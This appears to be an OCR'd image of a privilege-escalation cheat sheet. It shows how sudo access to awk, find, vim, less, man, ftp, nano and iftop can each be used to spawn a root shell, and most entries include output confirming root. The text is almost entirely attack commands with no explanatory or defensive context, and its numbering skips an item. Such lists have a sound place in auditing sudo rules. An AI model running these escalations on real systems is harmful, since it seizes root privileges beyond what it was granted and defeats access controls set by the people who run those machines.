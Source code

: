 ```
$ sudo awk 'BEGIN {system("/bin/sh")}'

sh-4.1# groups
root
```
1. /usr/sbin/iftop
```
$ sudo iftop
!/bin/sh

sh-4.1# groups
root
```
2. /usr/bin/find
```
$ sudo find . -exec /bin/sh \; -quit

sh-4.1# groups
root
```
3. /usr/bin/nano
```
$ sudo nano
^R^X
reset; sh 1>&0 2>&0
```
4. /usr/bin/vim
```
$ sudo vim -c ':!/bin/sh'

sh-4.1# groups
root
```
OR,
```
$ sudo vim 

:!/bin/sh
sh-4.1# groups
root
```
5. /usr/bin/man
```
$ sudo man man

!/bin/sh

sh-4.1# groups
root
```
7. /usr/bin/less
```
$ sudo less /etc/profile

!/bin/sh

sh-4.1# groups
root
```
8. /usr/bin/ftp
```
$ sudo ftp
ftp> !/bin/sh
sh-4.1# groups
root
```